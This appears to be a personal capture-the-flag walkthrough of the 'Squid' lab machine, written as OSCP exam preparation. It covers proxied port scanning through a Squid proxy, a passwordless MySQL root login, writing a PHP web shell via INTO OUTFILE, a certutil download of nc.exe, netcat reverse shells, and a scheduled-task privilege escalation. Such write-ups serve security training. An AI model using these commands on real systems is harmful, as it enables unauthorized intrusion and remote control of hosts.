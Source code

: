 # Squid Walkthrough
Name: Squid
Date:  22/09/2022
Difficulty:  Easy
Goals:  OSCP Prep 4/5 machines a day testing (can use walkthrough)
Learnt: 
- I MUST try all of the solutions on a page before moving from a source to extention to one of the solutions on the page. nmap then spose
- Into Outfile mysql shell with php
- nt \\system is may not be full system

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128. Prep the `-Pn`
![ping](OS-ProvingGrounds/Squid/Screenshots/ping.png)

One port machine, ran UDP as I normally do - was none anyway , greeted with this webpage

![](weirdness.png)
host (squid/3.1.9)
nmap says 4.14...
source code on webpage say: Generated Thu, 22 Sep 2022 10:56:47 GMT by SQUID (squid/4.14)

Askes for email web

Nuclei
```
Copyright (C) 1996-2021 The Squid Software Foundation 
```

[Hacktrick Squid Protocol Page](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid?q=3128)

![](curl-proxy.png)

It is windows machine

[4.14 exploit](https://packetstormsecurity.com/files/161563/Squid-4.14-5.0.5-Code-Execution-Double-Free.html) to consider


Used hint Foothold:
A phpMyAdmin web service can logged into with deafult credentials and "INTO OUTFILE" can be abused to gain a foothold.

proxychaining through I missed from the article; then should have masscan initially...masscan has its own tcp stack and is not compatible with proxychains
[hackwhackandsmack](https://www.hackwhackandsmack.com/?p=1021)
```bash
seq 1 10000 | xargs -P 50 -I{} proxychains nmap -p {} -sT -Pn --open -n --min-rate 1 --oG proxychains_nmap --append-output localhost
```
I tuned the above down, then tried `0 65535` and nothing..

Then:
```bash
proxychains nmap -sT -oA nmap/proxychained-localhost-st --min-rate 1000 -F localhost
# None open
```

Going to return to this when I am reading and see if its a weird port. Decided I think I either am doing something really wrong proxying through or tooling. Tested nmap with walkthrough on hand. But [spose](https://github.com/aancw/spose)

```
# Nmap 7.92 scan initiated Thu Sep 22 21:59:00 2022 as: nmap -sC -sV -oN solution-testing-3306-8080 -p 3306,8080 localhost
Nmap scan report for localhost (127.0.0.1)
Host is up (0.13s latency).

PORT     STATE  SERVICE    VERSION
3306/tcp closed mysql
8080/tcp closed http-proxy

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 22 21:59:01 2022 -- 1 IP address (1 host up) scanned in 0.62 seconds
```

![](spose.png)



![](wampserver.png)

## Exploit
Root and no password...
![900](rootnopasss.png)

You can alter the SQL and serve a file.php?cmd=RCE!

## Foothold

SQL into outfile Shell
```sql
-- PHP
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
curl "http://$ip/shell.php?cmd=whoami"

curl "http://$ip/shell.php?cmd=certutil+-urlcache+-f+http://$ip/nc.exe+nc.exe"
curl "http://127.0.0.1:8080/shell.php?cmd=nc.exe+$ip+4444+-e+powershell.exe"
```

## PrivEsc

Although the walkthrough points out a different PrivEsc
![](powerup-diversion.png)

Played around and fail to make work.
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe $ip 4444 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
# Catch reverse shell
# We may lack some privileges
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseWorkingSetPrivilege"
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs
# Catch another shell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe $ip 4444 -e cmd.exe`""
# Register SchedueledTask
Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms" -Principal $TaskPrincipal
# Start Task
Start-ScheduledTask -TaskName "GrantAllPerms"
```

Finallly
![](finalprivesc.png)